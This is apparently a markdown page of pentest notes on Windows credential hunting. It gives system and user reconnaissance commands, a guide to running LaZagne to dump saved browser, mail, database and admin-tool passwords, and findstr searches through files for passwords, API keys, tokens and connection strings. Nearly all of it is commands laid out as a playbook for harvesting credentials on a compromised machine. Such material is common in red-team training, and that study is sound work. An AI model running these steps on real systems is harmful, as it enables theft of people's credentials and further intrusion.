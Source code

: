 ## 🎯 Systematic Credential Hunting Methodology

### Initial Reconnaissance and Planning

Before beginning credential hunting, assess the target environment:

#### System Purpose Assessment
```cmd
# Check installed applications
wmic product get name
Get-WmiObject -Class Win32_Product | Select-Object Name

# Review running services
net start
Get-Service | Where-Object {$_.Status -eq "Running"}

# Check network connections
netstat -ano
Get-NetTCPConnection | Where-Object {$_.State -eq "Established"}
```

#### User Context Analysis
```cmd
# Current user information
whoami /all
net user %username%

# Check group memberships
net user %username% /domain
whoami /groups

# Review login history
wevtutil qe Security /q:"*[System[(EventID=4624)]]" /f:text /c:10
```

### Credential Discovery Workflow

#### Phase 1: Automated Discovery
```cmd
# Step 1: Transfer and run LaZagne
# Download from: https://github.com/AlessandroZ/LaZagne/releases
C:\temp> LaZagne.exe all -vv

# Step 2: Target specific modules based on discovered applications
C:\temp> LaZagne.exe browsers      # Web credentials
C:\temp> LaZagne.exe sysadmin      # IT tools (WinSCP, PuTTY, etc.)
C:\temp> LaZagne.exe mail          # Email credentials
C:\temp> LaZagne.exe databases     # Database connections
```

#### Phase 2: Manual File System Search
```cmd
# Search for common credential files
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.ps1 *.yml *.json

# Network infrastructure credentials
findstr /SIM /C:"ssh" /C:"telnet" /C:"router" /C:"switch" *.txt *.cfg *.ps1

# Development credentials
findstr /SIM /C:"api_key" /C:"secret" /C:"token" /C:"connectionstring" *.config *.json *.xml

# Service account credentials
findstr /SIM /C:"service" /C:"account" /C:"admin" *.txt *.ps1 *.bat
```
